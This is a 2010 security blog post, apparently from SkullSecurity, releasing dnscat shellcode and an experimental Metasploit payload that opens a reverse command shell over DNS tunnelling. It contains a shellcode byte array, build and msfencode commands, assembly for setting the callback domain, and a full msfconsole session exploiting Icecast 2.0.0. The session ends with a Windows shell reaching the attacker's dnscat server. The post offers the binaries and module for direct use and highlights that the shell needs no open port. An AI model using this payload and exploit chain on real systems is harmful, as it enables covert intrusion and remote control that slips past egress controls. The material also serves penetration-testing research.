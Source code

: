 ```yaml
---
id: 611
title: Weaponizing dnscat with shellcode and Metasploit
date: '2010-03-18T08:50:52-05:00'
author: ron
layout: post
guid: http://www.skullsecurity.org/blog/?p=611
permalink: "/2010/weaponizing-dnscat-with-shellcode-and-metasploit"
categories:
- dns
- hacking
- tools
comments_id: '109638346845215925'

---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes (for both Linux and Windows). Like I always say, go big or go home!
<!--more-->
If you just want to grab the files, here are some links:
<ul>
<li><a href='/blogdata/dnscat-shell-win32.asm'>Win32 shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-win32'>Win32 shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-win32.h'>Win32 shellcode - C array</a></li>
<li><a href='/blogdata/dnscat-shell-win32.rb'>Win32 Metasploit module</a></li>
<li><a href='/blogdata/dnscat-shell-linux.asm'>Linux shellcode - assembler</a></li>
<li><a href='/blogdata/dnscat-shell-linux'>Linux shellcode - binary</a></li>
<li><a href='/blogdata/dnscat-shell-linux.h'>Linux shellcode - C array</a></li>
</ul>

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:
<pre>svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make</pre>

That'll compile both the standard dnscat client/server and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it. I installed Cygwin, but you can compile the Windows shellcode on Linux or vice versa if you prefer. The output will be in samples/shellcode-*/. A .h file containing the C version will be generated, as well:
<pre>$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
</pre>

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:
<pre> $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
</pre>

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:
<pre>get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; <-- To modify domain, change this...
 db 3,'org' ; <-- and this. The number is the section length.
 db 0
</pre>

The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. 

<h2>Encoding with msfencode</h2>
msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:
<pre>$ msfencode -b "\x00" < dnscat-shell-win32 > dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)
</pre>

If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. 

<h2>Metasploit payload</h2>
Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. 

First, there are a number of caveats:
<ul>
<li>This is highly experimental</li>
<li>This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the process</li>
<li>This is set up as a single stage, right now, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities</li>
<li>The dnscat server isn't part of Metasploit, yet, so you'll have to compile run it separately</li>
</ul>
That being said, it also works great when it's usable. The target I use for testing is <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast 2 version 2.0.0</a> (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs (thanks Ed!). It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are, 
<ol>
<li>Install <a href='http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe'>Icecast2</a> on your victim machine (Win32)</li>
<li>Download the experimental dnscat <a href='/blogdata/dnscat-shell-win32.rb'>Metasploit module</a> and put it in your Metasploit directory (modules/payloads/singles/windows/)</li>
<li>Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the <a href='/wiki/index.php/Dnscat'>dnscat wiki</a> for more information</li>
<li>Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:</li>
<pre>msf > use exploit/windows/http/icecast_header

msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32

msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221

msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org

msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
</pre>

Meanwhile, on your dnscat server, if all went well, you should see:
<pre>$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
</pre>

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS. 

<h2>Why bother?</h2>
The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

<h2>Feedback</h2>
As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code. 

Thanks!
